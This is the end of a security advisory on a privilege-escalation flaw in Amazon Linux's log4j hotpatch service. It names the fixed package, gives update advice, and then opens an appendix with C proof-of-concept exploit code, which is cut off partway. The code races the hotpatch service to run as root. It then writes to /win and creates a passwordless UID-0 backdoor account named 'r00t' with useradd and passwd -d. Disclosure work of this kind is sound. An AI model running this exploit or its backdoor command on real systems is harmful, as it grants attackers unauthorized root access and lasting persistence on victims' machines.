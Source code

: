 The Amazon Linux team published `log4j-cve-2021-44228-hotpatch-1.3-5` which incorporates the recommended fix. It also applies defensive controls to the container-based hotpatch strategy to try to prevent unproven race condition bugs in the application of namespace controls.

Users of Amazon Linux should update to `log4j-cve-2021-44228-hotpatch-1.3-5`. If you're sure that you don't need the hotpatch service (e.g. you have patched log4j or do not use it in your Java applications), using the above mitigation to disable the hotpatch service would reduce local attack surface.

## Appendix A - POC

Warning: I don't normally write C, here be dragons

```c
% cat amazon-log4j-hotpatch-eop.c
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <sys/wait.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <stdio.h>

#define FN_SUCCESS "/tmp/hotpatch.esc.success"
#define FN_GO "/tmp/hotpatch.esc.go"

#define NUM_WORKERS 32

void nop() {}

int main(int argc, char* argv[]) {
        if (getuid() == 0) {
                // We got run as uid = root
                // w00t

                // Grab the lock
                int lockfd = open(FN_SUCCESS, O_RDWR | O_CREAT | O_EXCL, 0666);

                if (lockfd == -1) {
                        // Someone else won the race
                        return 0;
                }

                fchmod(lockfd, 0666);

                // Escalate fully
                setresuid(0, 0, 0);
                setresgid(0, 0, 0);

                // Execute payload
                system("id > /win");

                // Create backdoor user
                system("useradd -o -u 0 -g 0 r00t && passwd -d r00t");

                return 0;
        }

        if (argc > 1) {
                if (strcmp(argv[1], "-version") == 0) {
                        // Something ran -version not as root
```